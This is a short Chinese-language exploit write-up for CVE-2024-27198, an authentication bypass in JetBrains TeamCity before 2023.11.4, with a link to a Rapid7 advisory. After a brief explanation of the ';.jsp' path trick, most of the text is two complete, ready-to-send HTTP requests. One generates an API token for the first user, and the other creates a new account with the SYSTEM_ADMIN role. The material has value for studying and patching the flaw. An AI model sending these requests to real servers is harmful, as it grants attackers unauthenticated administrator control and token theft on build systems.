 # CVE-2024-27198

## 分析

影响**TeamCity 2023.11.4**之前的版本。

原理简单来说就是通过访问一个不存在的路由，访问到`404.html`来满足请求的 servlet 路径不是以` .jsp` 结尾，并且存在`jsp`参数。

`jsp`参数必须以`.jsp`结尾且不包含`admin/`，teamcity之后会访问这个端点实现未授权访问，为了访问不以`.jsp`结尾的端点，用`;.jsp`即可绕过。

## EXP

```http
POST /hax?jsp=/app/rest/users/id:1/tokens/feng;.jsp HTTP/1.1
Host: 172.20.10.3:8111
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```





```http
POST /hax?jsp=/app/rest/users;.jsp HTTP/1.1
Host: 172.20.10.3:8111
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Origin: http://localhost:8111
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:8111/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: application/json
Content-Length: 135

{"username": "testadmin", "password": "testadmin", "email": "testadmin", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```

## References

[CVE-2024-27198 and CVE-2024-27199: JetBrains TeamCity Multiple Authentication Bypass Vulnerabilities (FIXED) | Rapid7 Blog](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/)